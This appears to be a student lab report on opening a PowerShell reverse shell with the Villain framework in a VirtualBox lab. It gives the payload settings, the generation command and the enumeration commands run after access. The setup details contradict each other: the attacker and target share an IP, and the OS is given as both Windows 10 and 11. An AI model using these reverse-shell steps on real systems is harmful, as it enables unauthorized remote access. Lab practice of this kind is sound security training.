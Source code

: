 # 🐚 Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `windows/reverse_tcp/powershell`
- **LHOST:** `192.168.56.101`
- **LPORT:** `65001`

## 🔁 Payload Delivery Method
The payload was generated in Villain using the command:
generate os=windows lhost=eth1

It was then copied and executed in PowerShell on the Windows 10 target VM (running on the same internal VirtualBox network as the Kali attacker VM).

## 🖥️ Captured Info
- **Hostname:** `ABHISHEKPC`
- **IP Address:** `192.168.56.101`
- **User:** `abhis`

## 📸 Screenshots
1. Villain access Screenshot
![](Screenshots/Screenshot1.png)

![](<Screenshot1.png>)
2. Payload generation in linux
![](Screenshots/Screenshot3.png)

3. Payload testing in windows
![](Screenshots/Screenshot4.png)

4. Executing Commands
![](Screenshots/Screenshot2.png)
![](Screenshots/Screenshot5.png)
![](Screenshots/Screenshot6.png)
![](Screenshots/Screenshot7.png)
![](Screenshots/Screenshot8.png)
![](Screenshots/Screenshot9.png)
![](Screenshots/Screenshot10.png)

## 🔎 Enumeration Performed
whoami
ipconfig
systeminfo

# Checking current user
whoami
# Output: abhis(ABHISHEK ANIL GEORGE)

# Checking network configuration
ipconfig
# Output: IPv4 Address. . . . . . . . . . . : 192.168.56.101

# Gathering system information
systeminfo
# Output: Hostname: ABHISHEKPC
# OS Name: Microsoft Windows 11 Home Single Language 
# OS Version: 10.0.26100 N/A Build 26100 
